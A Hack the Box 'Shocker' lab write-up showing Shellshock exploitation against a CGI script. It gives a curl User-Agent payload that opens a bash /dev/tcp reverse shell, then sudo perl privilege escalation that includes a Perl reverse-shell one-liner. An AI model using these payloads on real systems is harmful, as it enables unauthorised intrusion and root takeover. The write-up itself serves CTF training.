 # Hack the Box: Shocker

After reading the name I had a fair bit of Idea of what this is. Basically ```shellshock``` vulnerability.

Starting with the usual NMAP scans

```zsh
nmap -sS -p- -Pn -r- 10.10.10.56```

You will see that only 2 ports are open 80 and 2222 are open.

```zsh
nmap -sC -sV -p 80,2222 -Pn 10.10.10.56
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 09:14 EDT
Nmap scan report for 10.10.10.56
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

Note dirsearch and nothing will yield any result here unless we use -x .sh .pl  with it.

```gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirb/small.txt -x .sh .zsh .pl -t 30```


Now, the nmap script for this is not working.

Here is how to fix it:

```zsh
locate nse | grep shellshock
```
Open it and then edit these parts

```
  if cmd ~= nil then
  cmd = '() { :;}; echo;'..cmd
```

And comment out this line:

```options["header"][cmd] = cmd``` by using ```--``` before it.

Now the script should start to work for you.

How did come across it ? Start a listener on BURP and redirect all data to localhost:LocalPort.

Now you can go the BURP way or you can go the php way using curl command. We will be targeting the the User Agent part. 

Start a listener on port 1234

```zsh
nc -lvnp 1234
```

```zsh
curl -H 'User-Agent: () { :; }; /bin/bash -c 'ping -c 3 10.10.14.5:1234'' http://10.10.10.56/cgi-bin/user.sh
```

Now you will see this on your listener

```zsh
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.14.5] 34090
GET / HTTP/1.1
Host: 10.10.14.5:1234
Accept: */*
User-Agent: () { :; }; /bin/bash -c ping

```

Now replace the ping command with this
```/bin/bash -i >& /dev/tcp/192.168.0.101/1234 0>&1```

```zsh
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.5/1234 0>&1' http://10.10.10.56/cgi-bin/user.sh
```

And now you will have a shell on your listener. Now for privesc.

```shell
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can see that we can execute perl as sudo without password. Now in order to solve that. We can do in 2 methods

- Method 1
```sudo /usr/bin/perl -e 'exec "/bin/bash";'```

- Method 2
```sudo perl -e 'use Socket;$i="10.10.14.5";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

Both will give you a root shell. Grab the flags.
